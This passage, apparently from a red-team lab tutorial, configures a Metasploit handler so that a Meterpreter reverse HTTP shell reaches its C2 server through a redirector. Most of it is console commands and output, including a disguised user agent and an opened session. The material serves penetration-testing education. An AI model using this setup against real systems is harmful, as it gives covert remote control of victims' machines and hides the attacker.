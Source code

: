 Next, we need to set up  OverrideLHOST - This value will be your redirector's IP Address or  Domain Name. After that, we need to set the OverrideLPORT; this will be  the port that the HTTP *or* HTTPS is running on, on your Redirector. Lastly, we must set the  OverrideRequestHost to true. This will make Meterpreter respond with the OverrideHost information, so all queries go through the Redirector and  not your C2 server. Now that you understand what must be configured, let's dive into it:

- **Metasploit Redirector**        

```shell
root@kali$ msfconsole
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 exploit(multi/handler) > set ReverseListenerBindPort 8080
ReverseListenerBindPort => 8080
msf6 exploit(multi/handler) > set OverrideLHOST 192.168.0.44
OverrideLHOST => 192.168.0.44
msf6 exploit(multi/handler) > set OverrideLPORT 80
OverrideLPORT => 80
msf6 exploit(multi/handler) > set HttpUserAgent NotMeterpreter
HttpUserAgent => NotMeterpreter
msf6 exploit(multi/handler) > set OverrideRequestHost true
OverrideRequestHost => true
msf6 exploit(multi/handler) > run
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started HTTP reverse handler on http://127.0.0.1:8080
[*] http://127.0.0.1:8080 handling request from 127.0.0.1; (UUID: zfhp2nwt) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 3 opened (127.0.0.1:8080 -> 127.0.0.1 ) at 2022-02-11 02:09:24 -0500


        
```

After this has all been set up, running your  Meterpreter Reverse Shell should now proxy all communications through  your Redirector! For awareness, the diagram below is how our Redirector  is set up in our lab; as a reminder, in engagements, you will want to  use **multiple** hosts and DNS records instead of IP Addresses. 
